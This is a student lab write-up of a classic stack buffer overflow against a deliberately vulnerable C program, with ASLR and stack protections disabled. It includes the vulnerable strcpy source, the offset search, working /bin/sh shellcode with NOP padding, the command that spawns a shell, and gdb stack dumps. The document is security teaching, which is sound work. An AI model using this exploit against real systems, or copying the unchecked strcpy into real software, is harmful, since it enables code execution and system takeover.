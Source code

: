 # Lab3 - Buffer overflow attack(turn off ASLR, turn off NX)

## Overview
This example shows how to find the return address location of strcpy using buffer overflow.
After finding out where it is, overwrite the return address with a address where we want to jump(What if the jump address is a program getting a shell!!)

## Steps
1. Set an address you want to jump. In this example, we just want to find out the address where the program exit immediately. Later on, this address will be the address you want to execute!!
2. Find where the strcpy return address is.(It's a brute force method)
3. And then, run the c program with a parameter containing the address where you want to jump.(We are going to use the address from the Step1)
4. Make a payload which include the execution of shell code!!
5. Place the payload as a parameter of the 'ans_check5'.

## Before get started
+ Preparation. Compile the c program below like this. 
```
gcc -g -z execstack -fno-stack-protector ans_check5.c -o ans_check5
```
+ gcc option explanation
```
-g : default debug information
-z execstack : marks the stack as executable
-fno-stack-protector : disables stack protection
-o : set output file name
```

## Step1. Find a exit function in the program
+ In a program, there should be a exit function naturally. We will use this address for later use.
+ Execute below to find out the address we want to jump. As you can see, 0x080485b3 is the address we want to jump!
```
[02/09/22]seed@VM:Byeongchan$ objdump -D ans_check5 | grep -B 1 exit

08048400 <exit@plt>:
--
 80485b3:	6a 00                	push   $0x0
 80485b5:	e8 46 fe ff ff       	call   8048400 <exit@plt>
[02/09/22]seed@VM:Byeongchan$
```

## Step2. Find out where the return address of strcpy function is! 
+ This is where brute force method comes in! Try like below changing the number of print count. 
+ If the program ended without printing 'About to exit!', that means return address was corrupted and the program was killed by the system.
```
[02/09/22]seed@VM:Byeongchan$ ./ans_check5 $(python -c "print '0'*47")
ans_buf is at address 0xbf88027c
Right answer!
About to exit!
Segmentation fault
[02/09/22]seed@VM:Byeongchan$ ./ans_check5 $(python -c "print '0'*48")
ans_buf is at address 0xbf8fe32c
Segmentation fault

```

## Step3. Exit without any other segmentation fault!
+ Python code will create meaning-less characters followed by exit return address. 
+ That return address will overwrite the return address of strcpy. If the program exit without 'Segmentation fault', then you found the right place!!!
+ Think about it. What if we can overwrite return address to a target program address we want to execute?
```
ans_check5 $( python -c "print '\xAA'*48 + '\xb3\x85\x04\x08'") 
```

+ Result. 
   + As you can notice, the program exit with special input parameter overwriting the return address 
```
[02/10/22]seed@VM:Byeongchan$ ans_check5
Usage: ans_check5 <answer>
[02/10/22]seed@VM:Byeongchan$ ans_check5 1
ans_buf is at address 0xbf8d9acc
Wrong answer!
About to exit!
[02/10/22]seed@VM:Byeongchan$ ans_check5 forty-two
ans_buf is at address 0xbfb8ad9c
Right answer!
About to exit!
[02/10/22]seed@VM:Byeongchan$ ans_check5 $( python -c "print '\xAA'*48 + '\xb3\x85\x04\x08'") 
ans_buf is at address 0xbf97bbdc
[02/10/22]seed@VM:Byeongchan$ 
```

## Step4. Make a payload. 
  + ‘PAYLOAD’ = '<Aligned Shellcode>'+<Safe padding>+'<BUFFER_START_ADDRESS>'
  + Shellcode: It's a execution of /bin/sh and hexacoded.
  + Safe padding: Need it to reach the return address location
  + BUFFER_START_ADDRESS: Address of a target program. In this case, the start address of 'Aligned Shellcode'
  + In this practice, we turn off ASLR so we surely know where it the start address of our overwrite.
```
Shellcode: \x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x99\xb0\x0b\xcd\x80
Safe padding: \x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90
BUFFER_START_ADDRESS: \x6c\xfd\xff\xbf
```

## Step5. Place the payload as a parameter of the 'ans_check5'.

  + FIRST, I executed on command line and I got another bash shell!!!!
  + SECOND, using gdb, investigate the content of the stack!!
  + I can see the corrupted stack content filled with the malicious code and \x90s and return address which points to the malicious code!!
```
[02/10/22]seed@VM:Byeongchan$ env -i PWD="/home/seed/stack_addresses" SHELL="/bin/bash" SHLVL=0 /home/seed/stack_addresses/ans_check5 $( python -c "print '\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x99\xb0\x0b\xcd\x80' + '\x90'*24 + '\x6c\xfd\xff\xbf'")
ans_buf is at address 0xbffffd6c
$ exit
[02/10/22]seed@VM:Byeongchan$
```
```
(gdb) x/32xw $esp
0xbffffd50:	0xbffffd6c	0xbfffff6a	0xbffffd70	0x080482c7
0xbffffd60:	0x00000000	0xbffffe04	0xb7fba000	0xb7eeed57
0xbffffd70:	0xffffffff	0x0000002f	0xb7e14dc8	0xb7fd6858
0xbffffd80:	0x00000001	0x00008000	0xb7fba000	0x00000000
0xbffffd90:	0x00000002	0x00800000	0xbffffdb8	0x080485cb
0xbffffda0:	0xbfffff6a	0xbffffe64	0xbffffe70	0x08048651
0xbffffdb0:	0xb7fba3dc	0xbffffdd0	0x00000000	0xb7e20637
0xbffffdc0:	0xb7fba000	0xb7fba000	0x00000000	0xb7e20637
(gdb) c
Continuing.

Breakpoint 2, 0x0804855b in check_answer (ans=0xbfffff00 "\031")
    at ans_check5.c:12
12	  strcpy(ans_buf, ans);
(gdb) x/32xw $esp
0xbffffd50:	0xbffffd6c	0xbfffff6a	0xbffffd70	0x080482c7
0xbffffd60:	0x00000000	0xbffffe04	0xb7fba000	0x6850c031
0xbffffd70:	0x68732f2f	0x69622f68	0x50e3896e	0x99e18953
0xbffffd80:	0x80cd0bb0	0x90909090	0x90909090	0x90909090
0xbffffd90:	0x90909090	0x90909090	0x90909090	0xbffffd6c
0xbffffda0:	0xbfffff00	0xbffffe64	0xbffffe70	0x08048651
0xbffffdb0:	0xb7fba3dc	0xbffffdd0	0x00000000	0xb7e20637
0xbffffdc0:	0xb7fba000	0xb7fba000	0x00000000	0xb7e20637
(gdb)
```

## ans_check5.c
```
#include <stdio.h>
#include <stdlib.h>
#include <string.h>

int check_answer(char *ans) {

  int ans_flag = 0;
  char ans_buf[32];

  printf("ans_buf is at address %p\n", &ans_buf);

  strcpy(ans_buf, ans);

  if (strcmp(ans_buf, "forty-two") == 0)
    ans_flag = 1;

  return ans_flag;

}

int main(int argc, char *argv[]) {

  if (argc < 2) {
    printf("Usage: %s <answer>\n", argv[0]);
    exit(0);
  }
  if (check_answer(argv[1])) {
    printf("Right answer!\n");
  } else {
    printf("Wrong answer!\n");
  }
  printf("About to exit!\n");
  fflush(stdout);
}
```


